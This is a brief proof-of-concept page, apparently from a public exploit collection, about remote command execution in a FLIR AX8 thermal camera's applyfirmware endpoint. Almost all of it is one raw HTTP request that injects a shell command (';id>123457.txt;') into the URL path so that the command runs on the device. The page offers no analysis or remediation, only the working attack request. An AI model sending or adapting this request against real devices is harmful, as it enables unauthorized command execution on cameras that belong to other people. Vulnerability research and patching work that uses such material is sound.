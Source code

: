# FLIR-AX8_applyfirmware_rce

```
GET /settings/applyfirmware/;id>123457.txt;/false HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ******
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
from: https://github.com/wy876/POC/blob/main/FLIR/FLIR-AX8%E7%83%AD%E6%88%90%E5%83%8F%E4%BB%AAapplyfirmware%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
